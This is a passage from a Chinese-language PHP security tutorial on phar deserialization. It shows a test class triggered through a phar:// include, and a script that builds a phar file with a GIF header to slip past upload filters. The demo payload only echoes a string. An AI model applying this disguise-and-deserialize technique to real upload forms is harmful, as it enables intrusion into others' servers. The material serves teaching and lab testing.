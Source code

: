 ![image-20240130134403694](08.文件包含漏洞/image-20240130134403694.png)

有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过 phar:// 伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：
phartest.php

```php
<?php
class TestObject{
   function __destruct()
   {
       echo $this -> data;   // TODO: Implement __destruct() method.
   }
}
include('phar://phar.phar');
?>
```
访问结果如下

![image-20240130134406650](08.文件包含漏洞/image-20240130134406650.png)

将phar伪造成其他格式的文件
在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是`<?php __HALT_COMPILER() ;?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。
phar.php
```php
<?php
   class TestObject {
   }
   $phar = new Phar('phar.phar');
   $phar -> startBuffering();
   $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   // 设置 stub ，增加 gif文件头
   $phar ->addFromString('test.txt','test'); // 添加要压缩的文件
   $object = new TestObject();
   $object -> data = 'eagleslab';
   $phar -> setMetadata($object); // 将自定义 meta-data 存入 manifest
   $phar -> stopBuffering();
?>
```
采用这种方法可以绕过很大一部分上传检测。
验证环境准备
```php
upload_file.php ，后端检测文件上传，文件类型是否为 gif ，文件后缀名是否为 gif
upload_file.html 文件上传表单
```
